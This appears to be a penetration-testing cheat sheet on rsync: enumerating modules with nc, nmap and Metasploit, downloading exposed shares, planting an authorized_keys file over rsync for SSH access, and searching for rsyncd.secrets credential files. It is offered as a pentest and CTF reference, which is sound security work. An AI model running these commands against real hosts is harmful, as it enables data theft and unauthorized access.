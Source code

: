 Rsync

## Theory

- rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files. It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression, and SSH or stunnel can be used for security.

- Default port : 
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack

---

## Enumeration

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection
```

### Try to enumerate "raidroot"

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

---

## Enumerate shared folders (This worked well !)

- ```rsync 10.10.10.200::```  => this will list all the shared folders
- ```rsync 10.10.10.200::<shared_folder>```
- Download the folder : ```rsync -rtd ip::<shared folder>```

---

## List the available modules and, optionally, determines if the module requires a password to access:

- ```nmap -sV --script "rsync-list-modules" -p <PORT> <IP>```
- ```msf> use auxiliary/scanner/rsync/modules_list```

- Example using IPv6 and a different port
```rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730```

- Notice that it could be configured a shared name to not be listed. So there could be something hidden.
Notice that it may be some shared names being listed where you need some (different) credentials to access. So, not always all the listed names are going to be accessible and you will notice it if you receive an "Access Denied" message when trying to access some of those.

- ```rsync -av --list-only rsync://192.168.0.123/shared_name```

- Copy all files to your local machine via the following command : ```rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared```

- The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.

## Credential part

- ```rsync -av --list-only rsync://username@192.168.0.123/shared_name```

- ```rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared```

- Upload some content using rsync (for example, in this case we can upload an authorized_keys file to obtain access to the box):

- ```rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh```


## Find the rsyncd configuration file:

- ```find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)```

- Inside the config file sometimes you could find the parameter secrets file = /path/to/file and this file could contains usernames and passwords allowed to authenticate to rsyncd.